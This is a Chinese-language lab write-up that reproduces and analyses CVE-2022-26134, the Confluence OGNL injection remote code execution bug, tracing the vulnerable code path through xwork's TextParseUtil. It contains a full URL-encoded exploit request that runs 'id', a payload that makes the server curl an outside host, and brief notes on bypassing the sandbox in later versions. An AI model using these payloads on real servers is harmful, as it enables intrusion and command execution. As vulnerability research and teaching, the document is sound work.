

# CVE-2022-26134 Confluence OGNL RCE 复现分析

## 0x00 环境

用的[vulhub](https://github.com/vulhub/vulhub/blob/master/confluence/CVE-2022-26134/README.zh-cn.md)，版本 7.13.6，[源码下载](https://www.atlassian.com/software/confluence/download-archives)

xwork.jar 选用了 xwork-1.0.3.6.jar、xwork-1.0.3-atlassian-8.jar，以及漏洞修复后的xwork-1.0.3-atlassian-10.jar进行对比分析。

```
docker exec -it 0f1a832c4088 /bin/bash
cd /opt/atlassian/confluence/bin
```

修改setenv.sh，添加调试端口，在末尾 export CATALINA_OPTS 前添加

```
CATALINA_OPTS="-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005 ${CATALINA_OPTS}"
```

重新启动

```
docker-compose restart
```

访问 http://127.0.0.1:8090/

去拿一个授权码，之后就是一直点点点了

```
AAABkA0ODAoPeNp1kV1r2zAUhu/1Kwy72Sju5K+kDQiWSt6S4iRL7WYf5EbWjhszWzaSlSz79ZPth
m5jAwmkc+B9z/ucV6mRzr29OHJ8bxZOZoHvUJY5PvZ99B3OO1C6bCTxJhhP8U0QeIg2suOiW/MaS
HuSbduGt++eal5W16KpkWhkcW375RFIpwygj0aJA9fAeAek13XxxB6UlAKkhvhHW6rzb81p33w2i
VdW9l8uKagjqCUjd9nXz+4uSHbubbQNXIyzBapG5QXXB7KiJ/p+YbZMTHbs2wdaR0H+86rOHos18
75cvZ0fHu7iZhlGB5Ef5yLT7NQm5ryl4adtPt+TPRkT2QE5BdmBGlOlJtdClW3X0xkqdlTbllyK/
2QadNamzkFtikdtyRLXG6tpx1UvXfBKw4WMTZcsWRqv3cS7Cf0pjgJkf+TPykY9cVlqPgzCqxJRB
cPnb96D0bN0dm5hWCDdrFbxA13Okwu1y8Z9xOAlod1HURmw2ZzXPQpnZPFmP3PiI6/M4IheniOSX
2AIxtAwLAIUTh0WdIbrFZLWB/pwIYgXS5n2I5kCFBJAncuiVFmGaGI56ZVa7b/VTO2FX02jb
```

重启之后如果浏览器访问发现出现Unable to bootstrap application: failed to find config at: /var/atlassian/application-data/confluence/confluence.cfg.xml

```bash
cd /var/atlassian/application-data
ls
chown -R confluence.confluence confluence
再重启服务

```

提取 confluence 文件夹进行分析

## 0x01 复现

payload

```
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: 172.23.80.1:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```


## 0x02 补丁

https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html

官方解决方案都是围绕 xwork.jar 进行



比较一下会发现对 namespace 和 actionName 取值时不再调用 TextParseUtil#translateVariables() 方法，下文可重点关注这里。


## 0x03 分析

### 正常流程 - login.action为例

对于 .action 的请求，再经过 Filter 处理后，最终来到com.opensymphony.webwork.dispatcher.ServletDispatcher#service() 进行处理


其中的 serviceAction() 方法在 com.atlassian.confluence.servlet.ConfluenceServletDispatcher#serviceAction() 中被重写，在传入参数前调用了`this.getNameSpace(request), this.getActionName(request), this.getRequestMap(request), this.getParameterMap(request), this.getSessionMap(request), this.getApplicationMap()` 分别获取请求的相应参数，最后实例化 DefaultActionProxy 类并调用其 execute() 


这里这个地方就是本次漏洞的产生关键，该方法在 xwork-1.0.3.6.jar 中实现，在这里调用了DefaultActionInvocation#invoke()


在 invoke() 中，执行前会先调用拦截器，这里使用的版本是 7.13.6 所以只有28个，高版本中更多。并且会逐个调用其 intercept() 方法


分析其中的一些拦截器，SecurityHeadersInterceptor#intercept() 以这种形式继续迭代


但对于其中特殊的拦截器，如 ConfluenceAccessInterceptor#intercept() 中存在判断，满足条件时将跳出迭代。


继续分析 isAccessPermitted() 的判断，就是对请求中的 *.action 和 methodName 进行判断，这里账号密码正确，返回为true继续迭代


因此当访问无权限 *.action 时将跳出迭代，继续分析

### 无权限访问 - browsepeople.action为例

判断为无权


这时候在 DefaultActionInvocation 中将不会继续迭代，而是执行 executeResult() 


继续跟进将调用 com.opensymphony.xwork.ActionChainResult#execute()


提取 namespace 和 actionName 参数，传入 TextParseUtil#translateVariables() 中处理


继续跟进 ，满足正则表达式`\\$\\{([^}]*)\\}`判断后，就是一个典型的 ognl 表达式解析


明确了漏洞ognl注入点后，返回去寻找最开始分析时 namespace 的构造方式

### namespace 构建

从这里可以看到，namespace 其实就是取最后一个 / 之前的那个路径


尝试 ognl 快乐payload`${2*2}`


命令执行 `/${@java.lang.Runtime@getRuntime().exec('curl 172.26.0.1:7777')}/`


### 高版本fiindValue() 沙箱绕过

在 7.13.6 中的实现是没有做安全校验的


对于7.15.X及以上版本则存在沙箱


由于 confluence 是基于 struts2 开发的，对于黑名单过滤的类，可以通过字符串拼接、字节码加载、反射等手段来绕过。本质上黑名单类就是套用的 [struts2 在struts-default.xml](https://github.com/apache/struts/blob/master/core/src/main/resources/struts-default.xml) 中的定义，只不过这里 SafeExpressionUtil#containsUnsafeExpression 也对成员方法进行了过滤，目前网上流传的黑白名单大致看了下也涵盖在里面，直接贴出来就不与 struts2 的定义作比较了。


目前网上流传的黑名单列表和白名单如下：

黑名单


白名单


